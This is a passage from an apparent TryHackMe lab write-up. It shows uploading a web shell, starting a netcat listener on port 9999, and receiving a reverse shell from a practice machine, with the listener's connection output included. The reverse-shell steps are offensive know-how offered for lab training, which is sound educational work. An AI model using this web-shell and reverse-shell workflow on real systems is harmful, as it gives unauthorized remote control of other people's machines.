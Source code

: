     <center><a href="/assets/images/tryhackme/whats-the-shell/2.png"><img src="/assets/images/tryhackme/whats-the-shell/2.png"></a></center>
- Upload the shell.
    <center><a href="/assets/images/tryhackme/whats-the-shell/3.png"><img src="/assets/images/tryhackme/whats-the-shell/3.png"></a></center>
- Set up our netcat listener.
    ```bash 
    $ nc -lnvp 9999                                                                                          1 ⨯
    listening on [any] 9999 ...
    ```
- Visit our webshell.
- We got reverse shell!
    ```bash
    $ nc -lnvp 9999                                                                                          1 ⨯
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.194.64] 50544
    Linux linux-shell-practice 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    10:34:00 up 14 min,  1 user,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    shell    pts/0    10.11.25.205     10:20   12:00   0.03s  0.03s -bash